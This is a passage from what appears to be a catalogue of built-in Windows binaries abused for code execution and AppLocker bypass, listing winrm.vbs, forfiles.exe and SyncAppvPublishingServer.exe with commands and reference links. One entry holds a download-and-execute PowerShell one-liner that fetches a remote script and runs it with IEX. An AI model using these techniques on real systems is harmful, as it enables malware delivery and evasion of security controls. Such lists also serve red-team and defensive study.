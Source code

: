 
* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes: Requires registry keys for com object.

* Links:
  * https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  * https://www.youtube.com/watch?v=3gz1QmiMhss

--------------------------------------------------------------------------
 34. winrm.vbs


winrm quickconfig


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes: Requires registry keys for com object.

* Links:
  * https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  * https://www.youtube.com/watch?v=3gz1QmiMhss

--------------------------------------------------------------------------
 35. forfiles.exe


forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes:

* Links:
  * https://twitter.com/vector_sec/status/896049052642533376

--------------------------------------------------------------------------
 36. SyncAppvPublishingServer.exe


SyncAppvPublishingServer.exe "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: ?

Notes:

* Links:
  * https://twitter.com/monoxgas/status/895045566090010624

--------------------------------------------------------------------------
 37. InfDefaultInstall.exe
